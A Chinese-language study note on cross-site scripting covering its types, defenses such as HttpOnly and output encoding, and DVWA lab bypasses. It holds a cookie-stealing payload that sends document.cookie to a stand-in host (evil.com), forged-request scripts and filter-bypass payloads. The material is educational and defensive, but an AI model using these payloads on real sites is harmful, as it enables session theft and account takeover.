






# XSS 

> 跨站脚本攻击(XSS，Cross site Script) ： 通常指黑客通过 html注入 篡改了网页，在网页中插入了恶意脚本，从而使得用户在浏览网页的时候控制用户浏览器的一种攻击
>
> **XSS根据效果可以分为以下几类：**
>
> - **反射型XSS - ** 简单的将用户输入的数据“反射”给浏览器，这种情况下，黑客需要诱导用户点击某些恶意链接才能攻击成功
> - **存储型XSS - ** 会将用户输入的数据存在服务器端，具有很强的稳定性，黑客发表博客文章发表后，所有访问博客的用户，都会在浏览器中执行脚本，黑客将脚本存在服务端
> - **DOM Based XSS - ** 实际上也属于反射型XSS，但是这种XSS是通过修改页面的DOM节点形成的XSS，所以称之为DOM Based XSS,、

## 1 XSS Payload

### 1.1 Cookie偷取

#### 1.1.1 攻击方式

> JavaScript脚本，攻击成功后，攻击者能够对用户当前浏览的界面植入恶意代码，通过恶意脚本，控制用户的浏览器，一个最常见的XSS Payload就是通过读取浏览器Cookie对象，发起Cookie劫持

 ```html
 http://www.a.com/test.htm?abc="><script src=http://www.evil.com/evil.js></script>
 ```

远程脚本`evil.js`如下：

```javascript
//在页面中插入一张看不见的图片，同时将docunment.cookie对象作为参数发送到了远程服务器

var img = document.createElement("img");

img.src = "http://www.evil.com/log?"+escape(document.cookie);
document.body.appendChild(img);
```

然后我们就能窃取到Cookie,将偷到的Cookie填入浏览器，就能直接登入被攻击者的账户

#### 1.1.2 防御Cookie偷取

- 网站在Set-Cookie时给关键的Cookie植入标识HttpOnly;
- 将Cookie与客户端IP绑定

从而使得窃取到的Cookie变为无意义的Cookie

### 1.2 构造GET和POST请求

> 一个网站的应用，只需要接受HTTP协议中的GET和POST请求就能完成所有的操作，对于攻击者而言，通过JavaScript就能让浏览器发起这两种请求

#### 1.2.1 攻击方式

##### 1.2.1.1 GET请求

GET请求时直接传递参数

删除一篇博文：

```html
http://blog.sohu.com/mange/entry.do?m=delete&id=12345
```

对于攻击者而言，只需要知道文章的id就能删除这篇文章了，如下，攻击者通过插入一张图片发起一个GET请求：

```javascript
var img = document.create.createElement("img")

img.src = "http://blog.sohu.com/mange/entry.do?m=delete&id=12345";

document.body.appendChild(img);
```

攻击者现在只要让博客作者执行这段代码，就能删除这篇文章，攻击者可以通过XSS诱使用户执行XSS payload

##### 1.2.1.2 POST请求

POST通过提交表单来提交数据

攻击者模拟提交表单的过程就能完成攻击，两种方法：

1. 构建form表单，然后自动提交表单

```javascript
var f = document.createElement("form");
f.action = "";
f.method = "post";
document.body.appendChild(f);

var i = document.createElement("input");
i.name = "ck";
i.value = "JiUY";
document.body.appendChild(i);
//...

// 如果表单的参数过多的画，通过DOM节点一个个构造代码两会很大，所以直接写HTML代码:

var dd = document.createElement("div");
document.body.appendChild(dd);

dd.innerHTML ='<form action="" method="post" id="xssform" name="mbform">'+'<input type="hidden" value="JiUY" name="ck" />'+'</form>'
//...
```

2. 通过XMLHttPrequest发送一个POST请求

```javascript
var url = "http://www.douban.com";

var postStr = "ck=JiUY&mb_text=test1234";

var ajax = null;
if(window.XMLHTTPRequest){
    ajax = new XMLHttpRequest();
}else if(window.ActiveXObject){
    ajax = new ActiveXObject("Microsoft.XMLHTTP");
}else{
    return;
}

ajax.open("POST", url, true);
ajax.setRequestHeader("Content-Type","application/x-www-form-unlencoded");
ajax.send(postStr);

ajax.onreadystatechange = function(){
    if(ajax.readyState ==4 && ajax.status ==200){
        alert("Done!")
    }
}
```

#### 1.2.2 防御方式

​	由于XSS和用户之间缺少交互，所以我们在提交表单之前要求输入验证码或者密码，就可以有效地防范XSS payload

### 1.3 XSS 钓鱼

​	一般地验证码系统是可以有效防范XSS攻击的，对于验证码而言，在payload中通过读取页面内容，将验证码的图片URL发到远程服务器，然后再将值回传到 XSS payload,就可以绕过验证码，同样，对于修改密码的问题，可以将XSS与钓鱼相结合，思路：

​	利用JavaScript在当前界面伪造一个登陆框，当用户在登陆框中输入用户名和密码之后，密码就被i发送到服务器上，然后再回传到XSS

### 1.4 其他

XSS还有很多其他的共能，基本上能用js做到的功能，利用XSS都能够解决，如获取用户浏览器信息，识别用户安装的软件，利用CSS来发现用户登陆过的网站，获取用户真实IP

### 1.5 XSS攻击平台

- Attack API
- BeFF
- XSS-Proxy

### 1.6 XSS蠕虫

蠕虫本来是通过服务器漏洞进行传播的，但是2005年的Samy蠕虫，则是一个XSS蠕虫，如果用户之间发生交互行为的界面，如果存在存储型XSS，就比较容易发起XSS Worm攻击

### 1.7 调试JavaScript

​	**坑一，不熟悉javascript，需要恶补**

- Firebug
- Fiddler
- etc.

### 1.8 XSS构造技巧

- 利用字符编码
- 绕过长度限制
  - 通过事件绕过
  - 将代码写道别处然后通过简短的代码加载XSS Payload,`location.hash`
  - 在特定的环境下通过注释符绕过长度限制，控制两个文本框的时候
- 使用`<base>`标签
- window.name

## 2 XSS 防御

### 2.1 HttpOnly

​	浏览器禁止页面的JavaScript访问带有HttpOnly属性的Cookie，这解决了XSS后的Cookie劫持攻击。

​	Cookie的使用过程如下：

1. 浏览器向服务器发起请求，没有Cookie
2. 服务器返回时发送Set-Cookie头，向客户端浏览器写入Cookie
3. 在Cookie到期之前，浏览器访问该域下面所有的界面，都会发送Cookie

HttpOnly是在Set-Cookie时标记；

### 2.2 输入检查

对用户输入的格式进行严格的检查，可以设置白名单，XSS Filter

缺点：

- XSS Filter在用户提交的时候获取变量并进行检查，对语境理解不完全
- 不够灵活

### 2.3 输出检查

变量输出到HTML界面的时候使用编码或者转义的方式防御

### 2.4 正确防御

XSS的本质是一种HTML注入，用户数据被当作HTML代码一部分执行了，根治方法，列出所有的XSS可能发生的场景，再一一解决

#### 2.4.1 在HTML标签中输出

```html
<div>$var</div>

<a href=# >$var</a>

<!-- 如果在标签中输出的变量不做处理，都能导致直接产生XSS-->
```

利用方式： 构造一个`<script>`标签，或者是任何能够产生脚本执行的方式,eg：

```html
<div>
    <script>alert(/xss/)</script>
</div>

<a href=#></a>
```

**防御方法，对变量使用HtmlEncode**

#### 2.4.2 在HTML属性中输出

```html
<div id="abc" name="$var"></div>

<!--利用方式-->

<div id="abc" name=" "><script>alert(/xss/)</script><" "</div>
```

**防御方法也是采用HtmlEncode** ,更严格，除了字母和数字以外，其他所有字符都编码成HTMLEntities

```java
String safe = ESAPI.encoder().encodeForHTMLAttribute(request.getParameter("input"));
```

#### 2.4.3 在`<script>`标签中输出

```html
<script>var x = "$var"</script>

<!-- 攻击者首先需要闭合引号 -->

<script>var x = " ";alert(/xss/);// "</script>
```

**防御时使用JavascripyEncode**

**tips:如果使用了错误的编码，由于htmlprase会先于JavaScriptparse执行，会导致执行javascript事件**

#### 2.4.5 在CSS中输出

CSS XSS 常见于`<style>`属性，所以尽量禁止用户控制变量，如果有需求，使用`encodeForCSS()`函数

```java
String safe = ESAPI.encoder().encodeForCSS(request.getParameter("input"));
```

#### 2.4.6 在地址中输出

- 在URL的path或者search中输出，使用URLEncode即可。URLEncode会将字符串转化为"%HH"的心智，比如空格是"%20","<"是"%3c"

  ```html
  <a href="http://www.evil.com/?test=$var">test</a>
  
  <!-- 可能攻击方式 -->
  
  <a href="http://www.evil.com/?test=" onclick=alert(1)"">test</a>
  
  <!-- 经过URLEncode之后 -->
  <a href="http://www.evil.com/?test=%22%20onclick%3balert%28%29%22">test</a>
  ```

- 如果URL被用户完全控制。URL的Protocal和Host部分无法使用URLEnocde

  一个URL的构成

  ```
  [Protocal][Host][Path][Search][Hash]
  eg:
  https://www.evil.com/a/b/c/test?abc=123#ssss
  
  [Protocal] = "https://"
  [Host] = "www.evil.com"
  [Path] = "/a/b/c/test"
  [Search] = "?abc=123"
  [Hash] = "#ssss"
  ```

  ```html
  <a href="$var">test</a>
  
  <!-- 攻击 -->
  <a href="javascript:alert(1)">test</a>
  
  <!-- 防御 检查URL，如果不是以http开头的话，手动添加，然后对变量进行URLEncode-->
  ```

#### 2.4.7 处理富文本

  	输入检查，过滤富文本的时候，严格过滤"事件"标签，如`<ifram>`,`<script>`,`<base>`,`<form>`等标签

  在标签的选择时，最好使用白名单，比如只允许`<a>`,``,`<div>`,等比较安全的标签

  #### 2.4.8 防御 DOM Based XSS

  ```html
<script>
  var x="$var"
document.write("<a href='"+x+"'>test</a>");
  </script>
  
  <!-- 变量输出在<script>标签内，但是又被document.write输出到HTML页面中-->
  <!-- 假设已经做了JavaScriptEncode,仍然可以产生XSS-->
  
  <script>
  var x="\x20\x27onclickx3dalert\x281\x29\x36\x2f\x2f\x27"
  document.write("<a href='"+x+"'>test</a>");
  </script>
  
  <!-- 原因是第一次执行的JavaScriptEncode只保护了 var x="$var"，而当document.write输出内容到HTML界面时，浏览器重新渲染了界面，参数变成了-->
  <a href=' 'onclick=alert(1);//''>test</a>
  ```

  同样如果只使用HtmlEncode一样时没有防御DOM Baesd XSS的，所以想要防御，需要首先在`$var`输出到`<script>`时应该执行一次JavaScriptEncode，而在`document.write`输出到HTML页面时，有两种情况：

  - 如果是输出到事件或者脚本，还需要做一次JavaScriptEncode
  - 如果是输出到HTML界面，需要做一次HtmLEncode

## 3 绕过DVWA PayLoad

### 3.1 反射型XSS



#### 3.1.1 低安全级别

```php+HTML
 <?php

if(!array_key_exists ("name", $_GET) || $_GET['name'] == NULL || $_GET['name'] == ''){

 $isempty = true;

} else {
        
 echo '<pre>';
 echo 'Hello ' . $_GET['name'];
 echo '</pre>';
    
}

?> 
```

可以看到是以get方法获取页面信息并返回，直接在HTML标签中输出，可以直接产生XSS

```html
<script>alert(/XSS/)</script>
```



#### 3.1.2 中安全级别

```php+HTML
 <?php

if(!array_key_exists ("name", $_GET) || $_GET['name'] == NULL || $_GET['name'] == ''){

 $isempty = true;

} else {

 echo '<pre>';
 echo 'Hello ' . str_replace('<script>', '', $_GET['name']);
 echo '</pre>'; 

}

?> 
```

采用黑名单策略，只过滤了`<script>`标签，一样可以直接产生XSS

```html
<!--修改<script>标签格式-->
<Script>alert(/XSS/)</Script>
```




#### 3.13 高安全级别

```php
 <?php
    
if(!array_key_exists ("name", $_GET) || $_GET['name'] == NULL || $_GET['name'] == ''){
    
 $isempty = true;
        
} else {
    
 echo '<pre>';
 echo 'Hello ' . htmlspecialchars($_GET['name']);
 echo '</pre>';
        
}

?> 
```

采用了HtmlEncode，能防御标签中直接写XSS，但是没法防御事件输出的XSS

```html
<!--利用事件 -->

```

### 3.2 存储型XSS



#### 3.1.1 低安全级别

```php+HTML
 <?php

if(isset($_POST['btnSign']))
{

   $message = trim($_POST['mtxMessage']);
   $name    = trim($_POST['txtName']);
   
   // Sanitize message input
   $message = stripslashes($message);
   $message = mysql_real_escape_string($message);
   
   // Sanitize name input
   $name = mysql_real_escape_string($name);
  
   $query = "INSERT INTO guestbook (comment,name) VALUES ('$message','$name');";
   
   $result = mysql_query($query) or die('<pre>' . mysql_error() . '</pre>' );
   
}

?> 
```

name和message会存储在服务器，在massage中构造

```html
<script>alert(/xss/)</script>
```



```html
<!-- 利用post方法修改name最大长度限制然后构造-->

```



因为XSS payload存储在服务器中，只要有人打开了留言板就会自动执行XSS payload

#### 3.1.2 中安全级别

```php
 <?php

if(isset($_POST['btnSign']))
{

   $message = trim($_POST['mtxMessage']);
   $name    = trim($_POST['txtName']);
   
   // Sanitize message input
   $message = trim(strip_tags(addslashes($message)));
   $message = mysql_real_escape_string($message);
   $message = htmlspecialchars($message);
    
   // Sanitize name input
   $name = str_replace('<script>', '', $name);
   $name = mysql_real_escape_string($name);
  
   $query = "INSERT INTO guestbook (comment,name) VALUES ('$message','$name');";
   
   $result = mysql_query($query) or die('<pre>' . mysql_error() . '</pre>' );
   
}

?> 
```

可以看到对message 进行了HtmlEncode，但是对name没有防护

```

```

#### 3.1.3 高安全级别

```php
<?php

if(isset($_POST['btnSign']))
{

   $message = trim($_POST['mtxMessage']);
   $name    = trim($_POST['txtName']);
   
   // Sanitize message input
   $message = stripslashes($message);
   $message = mysql_real_escape_string($message);
   $message = htmlspecialchars($message);
   
   // Sanitize name input
   $name = stripslashes($name);
   $name = mysql_real_escape_string($name); 
   $name = htmlspecialchars($name);
  
   $query = "INSERT INTO guestbook (comment,name) VALUES ('$message','$name');";
   
   $result = mysql_query($query) or die('<pre>' . mysql_error() . '</pre>' );
    
```

都进行了Html防护无法绕过

